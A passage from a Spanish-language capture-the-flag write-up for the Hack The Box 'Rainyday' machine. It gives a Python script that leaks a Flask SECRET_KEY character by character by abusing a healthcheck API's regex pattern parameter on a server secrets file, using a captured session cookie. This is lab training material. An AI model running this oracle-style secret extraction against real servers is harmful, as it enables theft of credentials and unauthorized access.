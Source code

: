 ![](/assets/img/HTB/Rainyday/burp4.png)

Así que ahora, necesitamos crear un script para brute forcear los caracteres de la SECRET_KEY, porque es necesario para decodificar la cookie y (quizá), obtener una contraseña

### Fuerza bruta SECRET_KEY

Podemos crear un script rápido en python para bruteforcear y conseguir la key.

```python
#!/usr/bin/python3

import string
import requests
import json

chars = string.printable
cookies = {'session': 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y_DUWA.hd-WRumWtu0J3IKLIv2UrYJ4Sjw'}

s = requests.Session()
pattern = ""

while True:
    for c in chars:
        try:
            rsp = s.post('http://dev.rainycloud.htb:3333/api/healthcheck', {
                'file': '/var/www/rainycloud/secrets.py',
                'type': 'custom',
                'pattern': "^SECRET_KEY = '" + pattern + c + ".*"
            }, cookies=cookies)
            if json.loads(rsp.content)['result']:
                pattern += c
                print(pattern)
                break
            else:
               pass
               # print(c)
        except Exception:
            print(rsp.content)
```
